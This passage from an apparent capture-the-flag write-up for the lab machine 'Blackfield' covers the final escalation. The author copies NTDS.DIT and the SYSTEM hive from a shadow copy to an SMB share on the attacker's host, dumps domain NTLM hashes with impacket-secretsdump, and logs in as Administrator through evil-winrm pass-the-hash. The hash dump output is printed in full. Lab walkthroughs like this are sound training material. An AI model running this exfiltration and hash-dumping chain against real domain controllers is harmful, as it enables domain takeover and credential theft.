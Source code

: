 ```
Number of shadow copies listed: 1
-> expose %df% z:
-> %df% = {1511be1a-1459-4f79-8aaf-97c51240d1d2}
The shadow copy was successfully exposed as z:\.
->

*Evil-WinRM* PS C:\Windows\System32> 
```

Once I sorted this step, I sent the `NTDS.DIT` file and the `HKLM\SYSTEM` registry Key to my SMB Share
```
*Evil-WinRM* PS C:\Windows\System32> net use \\10.10.14.135\boob /u:boob boob
The command completed successfully.

*Evil-WinRM* PS C:\Windows\System32> Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit \\10.10.14.135\boob\ntds.dit
*Evil-WinRM* PS C:\Windows\System32> reg.exe save hklm\system \\10.10.14.135\boob\systemreg
The operation completed successfully.

*Evil-WinRM* PS C:\Windows\System32> 

```

then used SecretsDump to get the key
```
┌──(kali㉿kali)-[~/…/NonComp/Hard/Blackfield/Loot]
└─$ impacket-secretsdump -system systemreg -ntds ntds.dit LOCAL
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee: :::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7f82cc4be7ee6ca0b417c0719479dbec:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
BLACKFIELD.local\BLACKFIELD764430:1105:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
```

And we have the Admin 
```
┌──(kali㉿kali)-[~/…/NonComp/Hard/Blackfield/Loot]
└─$ evil-winrm -i blackfield.local -u administrator -H 184fb5e5178480be64824d4cd53b99ee

Evil-WinRM shell v3.5
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


```